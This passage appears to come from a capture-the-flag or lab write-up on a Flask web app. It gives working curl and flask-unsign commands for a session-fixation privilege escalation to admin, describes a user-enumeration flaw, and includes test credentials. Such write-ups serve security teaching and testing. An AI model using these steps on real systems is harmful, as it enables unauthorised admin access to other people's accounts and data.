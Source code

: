 1. Using the same cookie file (so same session), perform a failed login for `admin`:

```bash
# reuse cj_player1.txt as both -b and -c
curl -k -b cj_player1.txt -c cj_player1.txt -X POST 'http://HOST/login' -F 'username=admin' -F 'password=wrong' -i

```

1. Decode the session newly set in `cj_player1.txt`:

```bash
SESSION=$(awk '/\tsession\t/ {print $7}' cj_player1.txt | tail -n1)
flask-unsign --decode --cookie "$SESSION"
# => {'authenticated': True, 'user_id': 'uid=admin,ou=users,dc=padl,dc=local', 'username': 'admin'}

```

1. Use the same cookie to access the admin dashboard:

```bash
curl -k -b cj_player1.txt 'http://HOST/dashboard' -i

```

**Impact:** attacker can escalate privileges to admin without knowing admin password, view sensitive admin-only pages, modify bookings, and read any flag placed in the admin UI.

---

## Vulnerability 2 — User enumeration (Severity: Medium)

**Description:** login responses differ between unknown usernames and incorrect passwords, enabling enumeration of valid usernames.

**Root cause:** distinct error messages returned from the auth endpoint reveal whether an account exists.

**Reproduction / PoC:** send two login requests with the same structure but use a nonexistent username and a known username with wrong password; observe differing responses.

**Impact:** enumeration reduces brute-force space and supports targeted attacks (e.g. the session fixation exploit above specifically targeted the `admin` username).

---

## Exploitation — full chain (step-by-step)

1. Step 1 — authenticate as low-privilege user (player1)

```bash
curl -k -c cj_player1.txt -X POST 'http://HOST/login' -F 'username=player1' -F 'password=password123' -i

```

Expected result: server returns success JSON and sets a `session` cookie whose decoded payload contains `authenticated: True`.
